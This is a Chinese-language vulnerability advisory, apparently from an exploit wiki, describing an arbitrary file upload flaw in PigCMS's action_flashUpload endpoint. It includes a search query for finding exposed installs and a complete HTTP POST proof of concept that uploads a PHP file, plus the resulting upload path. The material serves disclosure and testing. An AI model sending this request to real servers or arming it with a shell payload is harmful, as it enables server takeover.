 # PigCMS action_flashUpload 任意文件上传漏洞

## 漏洞描述

PigCMS action_flashUpload 方法中存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取到服务器权限

## 漏洞影响

<a-checkbox checked>pigcms</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app.name="PigCMS"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1691722982834-8391fb00-7582-4fc7-95c5-2ebb2c4dcde6.png)

验证POC

```php
POST /cms/manage/admin.php?m=manage&c=background&a=action_flashUpload HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----aaa

------aaa
Content-Disposition: form-data; name="filePath"; filename="test.php"
Content-Type: video/x-flv

<?php phpinfo();?>
------aaa
```

![img](/assets/PeiQi-Wiki/img/1691723050483-3c961b57-f018-46c5-a6e0-db9af809d26f.png)

```php
/cms/upload/images/2023/08/11/1691722887xXbx.php
```